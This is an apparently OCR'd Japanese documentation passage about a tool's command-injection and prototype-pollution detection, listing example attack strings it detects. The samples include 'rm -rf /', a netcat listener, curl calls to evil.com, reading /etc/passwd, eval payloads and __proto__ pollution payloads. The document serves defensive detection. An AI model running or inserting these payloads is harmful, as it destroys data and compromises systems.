 ### 2. コマンドインジェクション防止システム

#### 🛡️ 強化された機能
- **eval()使用禁止**: eval関数とFunction()コンストラクタの検出・制限
- **動的コード実行防止**: setTimeout/setInterval文字列実行の制限
- **コマンドパターン検出**: OS固有コマンドと危険な実行パターンの検出
- **PlantUML固有制限**: !include, !define, !pragmaディレクティブの検証

#### 📊 検出可能な攻撃パターン（42種類）
```javascript
// 基本的なコマンドインジェクション
'; rm -rf /'
'&& del /f /q C:\\*'
'| nc -l 4444'

// Windows固有攻撃
'powershell -c "Get-Process"'
'cmd /c "dir C:\\"'

// Unix/Linux攻撃
'bash -c "curl http://evil.com"'
'`whoami`'
'$(curl http://evil.com)'

// eval関数
'eval("malicious code")'
'Function("return malicious")()'
'setTimeout("malicious", 100)'

// PlantUML固有
'!define EVIL `rm -rf /`'
'!include /etc/passwd'
```

### 3. プロトタイプ汚染対策システム

#### 🛡️ 強化された機能
- **Object.freeze()活用**: セキュリティオブジェクトの不変性保証
- **__proto__アクセス制限**: プロトタイプチェーン操作の検出・制限
- **プロパティ検証強化**: 保護されたプロパティアクセスの監視
- **深層プロトタイプ攻撃検出**: 複雑なプロトタイプ汚染パターンの検出

#### 📊 検出可能な攻撃パターン（18種類）
```javascript
// 基本的なプロトタイプ汚染
'__proto__.polluted = true'
'constructor.prototype.polluted = true'
'Object.prototype.polluted = true'

// ブラケット記法
'["__proto__"]["polluted"] = true'
'["constructor"]["prototype"]["polluted"] = true'

// JSON形式
'{"__proto__": {"polluted": true}}'

// 保護されたプロパティ
'__proto__.toString = function(){return "hacked"}'
'constructor.prototype.valueOf = function(){return "hacked"}'

// エンコードされた汚染
'["\\u005f\\u005fproto\\u005f\\u005f"]'
```
